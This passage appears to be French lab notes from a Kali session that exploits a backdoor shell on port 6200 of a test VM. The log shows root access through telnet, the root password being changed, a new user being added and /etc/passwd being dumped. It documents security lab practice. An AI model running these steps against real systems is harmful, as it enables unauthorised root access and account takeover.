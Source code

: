
reverifier le port


root@kali:~# nmap -p6200 192.168.152.135

Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2017-03-30 12:57 EDT
Nmap scan report for 192.168.152.135
Host is up (0.00018s latency).
PORT     STATE SERVICE
6200/tcp open  unknown
MAC Address: 00:0C:29:0B:AD:DF (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.13 seconds
root@kali:~#



sur un autre terminal on voit bien que on est root avec la commande id;

root@kali:~# telnet 192.168.152.135 6200
Trying 192.168.152.135...
Connected to 192.168.152.135.
Escape character is '^]'.
id;
uid=0(root) gid=0(root)
: command not found



command passwd;
Enter new UNIX password: proxmox
Retype new UNIX password: proxmox
passwd: password updated successfully
: command not found

command adduser toto;
Adding user `toto' ...
Adding new group `toto' (1003) ...
Adding new user `toto' (1003) with group `toto' ...
Creating home directory `/home/toto' ...
Copying files from `/etc/skel' ...
Enter new UNIX password: proxmox
Retype new UNIX password: proxmox
passwd: password updated successfully
Changing the user information for toto
Enter the new value, or press ENTER for the default
        Full Name []:
        Room Number []:
        Work Phone []:
        Home Phone []:
        Other []:
y
: command not foundcorrect? [y/N] sh: line 10:
comand cat /etc/passwd
sh: line 11: comand: command not found
^[[A^[[B;
sh: line 12: : command not found
: command not found
command cat /etc/passwd;
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh